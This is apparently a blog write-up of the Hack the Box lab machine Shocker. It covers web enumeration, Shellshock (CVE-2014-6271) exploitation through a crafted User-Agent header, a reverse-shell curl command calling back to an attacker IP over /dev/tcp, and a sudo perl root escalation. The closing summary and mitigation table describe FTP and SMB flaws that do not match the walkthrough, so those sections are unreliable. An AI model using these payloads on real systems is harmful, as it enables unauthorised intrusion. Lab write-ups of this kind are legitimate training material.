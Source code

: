 ```yaml
--- 
title: "Hack the Box (HTB) - Shocker"
description: "Exploiting Shellshock"
date: 2024-07-20 12:00:00 -100
image: /assets/images/HTB - Shocker/HTB - Shocker Thumbnail.png
categories: [CTF]
tags: [shellshock,web application]    # TAG names should always be lowercase
---
```


## Enumeration

Let's start by running a [AutoRecon]([asdf](https://github.com/Tib3rius/AutoRecon)) against our box at `10.10.10.56`

```bash
sudo autorecon 10.10.10.56
```

Check out full TCP scan of the machine, we see the following ports open:

| Port     | State | Service | Reason           | Version                                |
|----------|-------|---------|------------------|----------------------------------------|
| 80/tcp   | open  | http    | syn-ack ttl 63   | Apache httpd 2.4.18 ((Ubuntu))        |
| 2222/tcp | open  | ssh     | syn-ack ttl 63   | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2        |

SSH is on a non standard port, but is irrelevant. Let's check out the apache web server running on port 80

![Apache web server](/assets/images/HTB%20-%20Shocker/Apache%20web%20server.png)

Nothing much here, checking  the source code only reveals bug.jpg which isn't useful

Let's check out dirbuster scan provided to us by autorecon

![Dirbuster](/assets/images/HTB%20-%20Shocker/Shocker%20Dirbuster.png)

Only 200 response on the root directory and bug.jpg.

I decided  to run a `feroxbuster` scan manually to check the directories as well

![CGI-BIN](/assets/images/HTB%20-%20Shocker/CGI%20BIN.png)

We're getting a 403 access denied on cgi-bin/ which is a common directory for web severs to store CGI executable scripts. These scripts are used to generated dynamic content on web servers. Let's run another enumeration on `cgi-bin/` to see what scripts we can find

```bash
feroxbuster -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl,py,php
```

![User.sh Script](/assets/images/HTB%20-%20Shocker/user.sh.png)

We get a 200 response on this /user.sh script. Let's curl the request to see what we get

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

![Curl Request](/assets/images/HTB%20-%20Shocker/Curl%20Request.png)

I got stuck here, and apparently this directory is vulnerable to an exploit called [Shellshock](https://beaglesecurity.com/blog/vulnerability/shellshock-bash-bug.html#:~:text=Shellshock%2C%20also%20known%20as%20the,to%20a%20Bash%2Dbased%20application.). It's a vulnerability in old versions of Bash that lets attackers send HTTP requests that manipulate variables due to improper handling of environment variable function definitions

We can run a specific nmap scan against this to test if the target is vulnerable

```bash
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```
![Shocker Nmap](/assets/images/HTB%20-%20Shocker/Shocker%20nmap.png)

Our nmap scans confirms the target is vulernable to [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271) I.E Shellshock

## Exploiting without Metasploit

There's a metasploit module that gets us user level access with the click of a button, but let's try exploiting manually first

We will use the following curl to make a malicious HTTP request with a specially crafted User-Agent header

```bash
url -H "User-Agent: () { :;}; echo; /bin/bash -c 'whoami'"
```

- `() { :;}:` Defines a function in the User-Agent header
- `/bin/bash -c 'id'` Part of the command that is executed by the vulnerable bash interpreter

Since this sever is confirmed to be running an outdated version of bash, it will process our user-agent header as a function definition. This happens because bash **before the shellshock update** processes the user agent header as a function definition instead of plain

![Shell Shocked](/assets/images/HTB%20-%20Shocker/Shell%20Shocked.png)

We have RCE. Let's get our shell going. I'll start up my nc listener and perform the following curl request

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/9001 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

![Shell](/assets/images/HTB%20-%20Shocker/Shell.png)


## Privilege Escalation

Running `sudo -l` tells us the following:

- User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

We can run perl commands as root without a password. We can leverage this to execute /bin/sh to spawn a shell. Since we run this as sudo it will spawn a root shell

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh"'` 
```

GG, we've rooted Shocker!

![Rooted](/assets/images/HTB%20-%20Shocker/Root%20Shocker.png)




## Summary

1. Initial enumeration discovered Web server
2. Directory busting web server discoverd CGI
3. Gained root though SMB exploit running as root

## Vulnerabilities & Mitigation

| Vulnerability     | Mitigation            |
|-------------------|-----------------------|
| Anonymous FTP login allowed  | Disable anonymous FTP login |
|Outdated FTP version (vsftpd 2.3.4)|Update to the latest version of vsftpd|
|  Vulnerable SMB version (3.0.20-3.0.25rc3) | Update Samba to the latest version to patch the vulnerability

### Remediation References

- [Disable FTP Anonymous Login](https://learn.microsoft.com/en-us/iis/configuration/system.applicationhost/sites/site/ftpserver/security/authentication/anonymousauthentication)
- [NIST SP 800-53](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-53r5.pdf)